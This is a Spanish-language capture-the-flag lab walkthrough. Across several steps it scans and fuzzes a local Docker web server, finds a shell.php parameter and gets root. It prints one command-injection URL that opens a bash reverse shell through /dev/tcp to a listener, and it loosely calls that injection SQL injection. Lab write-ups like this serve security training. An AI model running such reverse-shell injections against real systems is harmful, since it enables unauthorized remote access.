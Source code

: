
---
>Lo primero es hacer un escaneo de puertos y servicios con nmap.
![[Pasted image 20240710133744.png]]
>Accedo al servicio http y lo que encuentro es una web donde aparentemente no encuentro nada útil.
![[Pasted image 20240710133806.png]]
>Al final de la página, encuentro el apartado de contacto donde dice que en el apartado /tmp de la máquina hay algo que puede ser interesante.
![[Pasted image 20240710134112.png]]
>Procedo a hacer un poco de fuzzing web con la herramienta gobuster para ver si puedo descubrir algunos directorios que a simple vista se encuentran ocultos.
![[Pasted image 20240710134958.png]]
>Encuentro el apartado warning.html y shell.php.
>Accedo a la dirección warning.html y encuentro el siguiente mensaje.
![[Pasted image 20240710140227.png]]
>Ahora decido acceder al apartado shel.php.
![[Pasted image 20240710134025.png]]
>Voy a suponer que el apartado shell.php actúa como una consola, por lo que posiblemente pueda inyectar código sql a través de la url.
>Para saber qué parámetro necesito para inyectar código, voy a hacer uso de la herramienta wfuzz de la siguiente manera.
![[Pasted image 20240710135815.png]]
>La herramienta me ha reportado que el parámetro que necesito es parameter.
>Lo primero que hago es ponerme en escucha por el puerto indicado para posteriormente recibir una reverse shell y ganar acceso al sistema.
![[Pasted image 20240710140152.png]]
>Ahora inyecto código a la url de manera que me proporcione una reverse shell a la ip y el puerto indicados.
``` sqli
http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/172.17.0.2/4343 0>%261"
```
![[Pasted image 20240710140212.png]]
>Cuando ejecuto la inyección, gano acceso a un terminal.
>Soy el usuario www-data.
>Descubro un documento secreto.txt y listo su contenido, obteniendo una supuesta password contraseñaderoot123.
![[Pasted image 20240710140412.png]]
>Intento iniciar sesión como root introduciendo la posible password que he obtenido anteriormente.
![[Pasted image 20240710140523.png]]